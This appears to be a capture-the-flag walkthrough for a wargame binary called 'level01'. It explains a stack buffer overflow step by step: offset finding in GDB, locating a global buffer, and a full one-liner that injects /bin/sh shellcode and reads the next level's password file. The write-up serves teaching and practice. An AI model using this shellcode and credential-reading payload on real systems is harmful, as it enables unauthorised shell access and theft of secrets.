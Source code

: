 # Walkthrough - level01

The program contains SUID permissions for the user level02, which will allow us to obtain their flag.

## Disassembly

- Allocation of a 64-byte buffer on the stack
- A call to the `fgets` function with 256 bytes read from stdin
- A call to the `fgets` function with 100 bytes read from stdin

## Exploit

The goal is to store shellcode in the buffer `a_user_name`, then overwrite the EIP of the `main` function to jump directly to the shellcode.

First, as we can see in the `verify_user_name` function, there is a `memcpy(a_user_name, "dat_wil", 7)` which requires us to use the username `dat_wil`.

Next, we need to calculate the offset to be used in the second `fgets`.

[Buffer Overflow Pattern Generator](https://wiremask.eu/tools/buffer-overflow-pattern-generator/)

This site generates a string that can be used in the second `fgets` with GDB to cause a segfault and calculate the offset to overwrite the EIP in `main`.

```bash
gdb ./level01
(gdb) run
Starting program: /home/users/level01/level01 
********* ADMIN LOGIN PROMPT *********
Enter Username: dat_wil
verifying username....

Enter Password: 
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag
nope, incorrect password...

Program received signal SIGSEGV, Segmentation fault.
0x37634136 in ?? ()
```

If we enter the segfault address (`0x37634136`)on the site, we get an offset of 80 bytes

Now we need to get the address of the variable `a_user_name` to know the address of the shellcode that we are going to inject.

```bash
gdb ./level01
(gdb) info variables
0x0804a040  a_user_name
```

There is the string `dat_wil` at the beginning of `a_user_name` so our shellcode will be at address `0x0804a040 + len("dat_wil") + 1 pour le \0 = 0x0804a048`


Let's construct the full command, adding some NOP instructions "\x90" before the shellcode to make it easier to land on it.

```bash
(python -c 'print("dat_wil" + "\x90" * 20 + "\x31\xc9\xf7\xe1\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0\x0b\xcd\x80")'; python -c 'print("\x90" * 80 + "\x48\xa0\x04\x08")'; echo "cat /home/users/level02/.pass") | ./level01
```

[Shellcode](https://shell-storm.org/shellcode/files/shellcode-752.html)